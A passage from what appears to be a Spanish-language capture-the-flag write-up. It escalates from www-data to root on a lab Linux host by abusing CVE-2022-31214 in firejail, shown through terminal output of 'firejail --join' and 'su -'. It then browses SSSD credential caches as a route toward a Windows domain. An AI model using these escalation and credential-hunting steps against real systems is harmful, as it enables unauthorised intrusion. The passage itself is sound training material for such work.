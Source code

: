 Ese extraño programa es para crear entornos aislados del sistema real así como Docker, la versión es la 0.9.68rc1 y es vulnerable al CVE-2022-31214. Existe un [PoC](https://www.openwall.com/lists/oss-security/2022/06/08/10/1) de esta falla asi que vamos a utilizarlo, al ejecutarlo nos dice que nos unamos al namespace de un PID en otra consola donde se supone deberíamos tener el su sin restricciones por una política del PAM. Vamos a tener que crearnos otra reverse shell para poder abusar de la vulnerabilidad

```bash
You can now run 'firejail --join=11066' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
```
  *Terminal 1*

```bash
www-data@icinga:/tmp$ firejail --join=11066
changing root to /proc/11066/root
Warning: cleaning all supplementary groups
Child process initialized in 15.20 ms
www-data@icinga:/tmp$
```
  *Terminal 2*

En la segunda terminal, usando `su -` ya nos podremos convertir en root. Hecho esto ya podemos cerrar la primera terminal

```bash
www-data@icinga:/tmp$ su -
root@icinga:~#
```

### matthew - DC$/cerberus.local (Windows Server 2019)

Buscando por archivos del SSSD, encontramos algo interesante en `/var/lib/sss`

```bash
root@icinga:/var/lib/sss# ls -la
total 40
drwxr-xr-x 10 root root 4096 Jan 22  2023 .
drwxr-xr-x 38 root root 4096 Jan 29  2023 ..
drwx------  2 root root 4096 Mar  2 12:33 db
drwxr-x--x  2 root root 4096 Oct  4  2022 deskprofile
drwxr-xr-x  2 root root 4096 Oct  4  2022 gpo_cache
drwx------  2 root root 4096 Oct  4  2022 keytabs
drwxrwxr-x  2 root root 4096 Aug  2 05:44 mc
drwxr-xr-x  3 root root 4096 Aug  2 05:44 pipes
drwxr-xr-x  3 root root 4096 Aug  2 22:52 pubconf
drwx------  2 root root 4096 Jan 22  2023 secrets
```

El directorio `db` tiene varios archivos de caché, con formato TDB

```bash
root@icinga:/var/lib/sss/db# ls -la
total 5036
drwx------  2 root root    4096 Mar  2 12:33 .
drwxr-xr-x 10 root root    4096 Jan 22  2023 ..
-rw-r--r--  1 root root 1286144 Aug  2 05:44 cache_cerberus.local.ldb
-rw-------  1 root root    2715 Mar  2 12:33 ccache_CERBERUS.LOCAL
-rw-------  1 root root 1286144 Aug  2 05:44 config.ldb
-rw-------  1 root root 1286144 Jan 22  2023 sssd.ldb
-rw-r--r--  1 root root 1286144 Mar  1 12:07 timestamps_cerberus.local.ldb
root@icinga:/var/lib/sss/db# file cache_cerberus.local.ldb 
cache_cerberus.local.ldb: TDB database version 6, little-endian hash size 10000 bytes
```
